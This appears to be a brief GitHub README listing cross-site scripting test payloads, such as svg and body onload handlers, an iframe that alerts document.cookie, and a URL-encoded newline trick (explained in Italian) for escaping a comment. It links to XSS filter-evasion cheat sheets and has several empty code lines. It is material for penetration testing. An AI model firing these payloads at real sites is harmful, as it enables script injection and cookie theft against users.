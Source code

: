 # payload-xss

`<svg/onload=alert('XSS')>`

`<BODY ONLOAD=alert('XSS')>`

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

<i>%0A newline url encoded per mandare a capo il tuo payload. In caso ci sia un commento // %0Aalert(1) </i></br>
`a%0Aalert('XSS');//`

``

``

``

``

``

``

``

``

<!-- `` -->


# REFERENCES:
https://xn4k.github.io/pentest/bug%20bounty/ethical%20hacking/XSS-Filter-Evasion-Cheat-Sheet/
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
